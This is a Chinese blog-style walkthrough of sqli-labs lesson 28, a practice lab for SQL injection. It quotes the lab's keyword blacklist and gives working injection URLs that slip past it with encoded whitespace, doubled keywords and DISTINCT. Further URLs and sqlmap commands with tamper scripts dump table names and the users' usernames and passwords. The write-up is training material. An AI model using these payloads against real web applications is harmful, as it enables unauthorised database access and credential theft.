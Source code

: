 ```yaml
---
title: sqli-labs lession-28 GET基于错误-你的UNION和SELECT归我所有-字符型单引号和括号
date: 2018-10-07 20:03:26
tags: [sqli-labs]
categories: sql注入
---
```


# sqli-labs lession-28 GET基于错误-你的UNION和SELECT归我所有-字符型单引号和括号

---

## 登录界面

![001](/img/sql/Lesson-28/001.png)

## 分析

这标题有毒吧,不是基于错误吗,结果源码里把报错注释了,结果我做成布尔盲注了。

```
function blacklist($id)
{
$id= preg_replace('/[\/\*]/',"", $id);		//过滤 / *.
$id= preg_replace('/[--]/',"", $id);		//过滤 -.
$id= preg_replace('/[#]/',"", $id);			//过滤 #.
$id= preg_replace('/[ +]/',"", $id);		//过滤 空格 +.
//$id= preg_replace('/select/m',"", $id);	
$id= preg_replace('/[ +]/',"", $id);	    //过滤 空格 +.
$id= preg_replace('/union\s+select/i',"", $id);	 //过滤无论大小写的（UNION 空格符 SELECT）.单独的不会过虑。
return $id;
}
```
绕过空格都是前几课做的,这里就将绕过过滤（UNION 空格符 SELECT）

1. 用`union all select`替代`union 空格符 select`

`http://192.168.75.132/sql/Less-28/?id=4')%0AuNion%0Aall%0AseLect%0A1,2,3%0Aand('1`

![002](/img/sql/Lesson-28/002.png)

2. 用`%A0`替代空格

`%A0`有时候会被解析成特殊字符,php-5.2.17版本可行

`http://192.168.75.132/sql/Less-28/?id=4')%0AuNion%A0seLect%0A1,2,3%0Aand('1`

![003](/img/sql/Lesson-28/003.png)

3. 双写绕过用`unionuNion%0AseLect%0Aselect`替代`union select`

`http://192.168.75.132/sql/Less-28/?id=2')%0AunionuNion%0AseLect%0Aselect%0A1,2,3%0Aand('1`

![004](/img/sql/Lesson-28/004.png)

4. 在union和select中间添加谓词  （distinct,distinctrow）

`http://192.168.75.132/sql/Less-28/?id=3')%0AuNion%0Adistinct%0AseLect%0A1,2,3%0Aand('1`

![005](/img/sql/Lesson-28/005.png)

## 手注

直接结果

`http://192.168.75.132/sql/Less-28/?id=2'and%0A1=2)%0Aunion%0Aall%0AseLect%0A1,(select(group_concat(table_name))from(information_schema.tables)where(table_schema='security')),3%0A%0Aand('1`

![006](/img/sql/Lesson-28/006.png)

`http://192.168.75.132/sql/Less-28/?id=2'and%0A1=2)%0Aunion%0Aall%0AseLect%0A1,(select(group_concat(id,'~',username,'~',password))from(security.users)),3%0A%0Aand('1`

![007](/img/sql/Lesson-28/007.png)

## SQLMAP

写了的`union select`绕过脚本没用上。

`python sqlmap.py -u "http://192.168.75.132/sql/Less-28/?id=1" --method GET --technique B --dbms mysql --threads 10 --level 2 --flush-session --fresh-queries --tamper "space0A.py" -v 3`

![008](/img/sql/Lesson-28/008.png)

![009](/img/sql/Lesson-28/009.png)

`python sqlmap.py -u "http://192.168.75.132/sql/Less-28/?id=1" --method GET --technique B --dbms mysql --threads 10 --level 2  --tamper "space0A.py" --dbs`

![010](/img/sql/Lesson-28/010.png)

`python sqlmap.py -u "http://192.168.75.132/sql/Less-28/?id=1" --method GET --technique B --dbms mysql --threads 10  --tamper "space0A.py" -v 3 -D security --tables`

![011](/img/sql/Lesson-28/011.png)

`python sqlmap.py -u "http://192.168.75.132/sql/Less-28/?id=1" --method GET --technique B --dbms mysql --threads 10  --tamper "space0A.py,count.py" -D security -T users --columns --dump`

![012](/img/sql/Lesson-28/012.png)




